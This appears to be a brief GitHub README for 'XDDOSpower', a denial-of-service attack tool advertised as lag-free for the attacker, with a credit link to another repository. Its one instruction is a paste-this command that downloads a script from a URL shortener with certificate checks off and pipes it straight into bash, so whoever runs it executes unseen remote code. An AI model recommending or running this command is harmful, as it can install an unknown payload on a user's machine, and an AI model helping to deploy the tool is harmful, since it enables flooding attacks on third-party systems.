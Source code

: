 # XDDOSpower

XDDOS no lag in attacker
cloud google is best XDDOS

[thank AnAverageBeing](https://github.com/AnAverageBeing/XDDOS)

```curl -sLk -o a https://is.gd/NijGG8 & bash a```
